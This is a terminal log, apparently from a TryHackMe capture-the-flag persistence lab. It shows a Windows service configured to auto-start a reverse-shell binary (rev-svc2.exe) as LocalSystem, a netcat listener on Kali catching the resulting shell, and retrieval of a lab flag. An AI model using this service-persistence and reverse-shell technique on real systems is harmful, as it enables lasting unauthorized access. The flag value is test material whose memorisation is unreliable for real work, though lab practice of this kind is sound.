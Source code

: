 ```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\Administrator>sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\Administrator>sc.exe start THMservice3

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3736
        FLAGS              :

──(kali㉿kali)-[~/payloads]
└─$ nc -nvlp 5558
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::5558
Ncat: Listening on 0.0.0.0:5558
Ncat: Connection from 10.10.170.100.
Ncat: Connection from 10.10.170.100:49984.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\flags
cd C:\flags

C:\flags>.\flag8.exe
.\flag8.exe
THM{IN_PLAIN_SIGHT}

```
